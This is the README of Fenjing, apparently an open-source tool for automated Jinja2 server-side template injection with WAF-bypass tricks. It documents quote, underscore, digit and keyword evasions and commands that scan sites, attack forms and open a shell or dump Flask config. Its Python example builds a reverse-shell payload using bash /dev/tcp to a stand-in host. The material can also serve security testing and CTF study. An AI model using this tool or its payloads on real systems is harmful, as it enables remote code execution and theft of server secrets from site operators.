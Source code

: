 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对Jinja2 SSTI的命令行脚本，具有强大的自动绕过WAF功能

## 演示

![demo](assets/demo.webp)

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

## 项目结构

[![](https://mermaid.ink/img/pako:eNqFVMtugzAQ_BXLUm7hBzj0UPUP2iMS2thrsGps6keiNMq_F5pS2xhan2BmdryeNdwoMxxpTYUyF9aD9eTtudFkWi6cOgtjT4KXypEHOC9mlLHyEyNi8SOg82gjJIwd0hLt_OMVNV_5w8kEX41wVQa4i0VS-_YMNkFcj0q1P8rMXciuxEWI6rZDHZkC3OsqP4ZjoNtgVUQuIFoRNMvt56qWWWDvSyS__ocDYUqSqnpKIkqRvG5h8p0Tk1X0CZOPaSJS91UDW2zpXEjyLVb0vMHmAAqbMsR14besNNpS5bcmvxpkv6n5eFt2RYr_CpZR7YSY0XEC2dX-u880ru0WCkU26YJNmqRHOqAdQPLpn3CbSxrqexywofX0yFFAUL6hjb5PUgjevF41o7W3AY80jBw8vkiYPqGB1gKUw_sXrbFnVA?type=png)](https://mermaid.live/edit#pako:eNqFVMtugzAQ_BXLUm7hBzj0UPUP2iMS2thrsGps6keiNMq_F5pS2xhan2BmdryeNdwoMxxpTYUyF9aD9eTtudFkWi6cOgtjT4KXypEHOC9mlLHyEyNi8SOg82gjJIwd0hLt_OMVNV_5w8kEX41wVQa4i0VS-_YMNkFcj0q1P8rMXciuxEWI6rZDHZkC3OsqP4ZjoNtgVUQuIFoRNMvt56qWWWDvSyS__ocDYUqSqnpKIkqRvG5h8p0Tk1X0CZOPaSJS91UDW2zpXEjyLVb0vMHmAAqbMsR14besNNpS5bcmvxpkv6n5eFt2RYr_CpZR7YSY0XEC2dX-u880ru0WCkU26YJNmqRHOqAdQPLpn3CbSxrqexywofX0yFFAUL6hjb5PUgjevF41o7W3AY80jBw8vkiYPqGB1gKUw_sXrbFnVA)



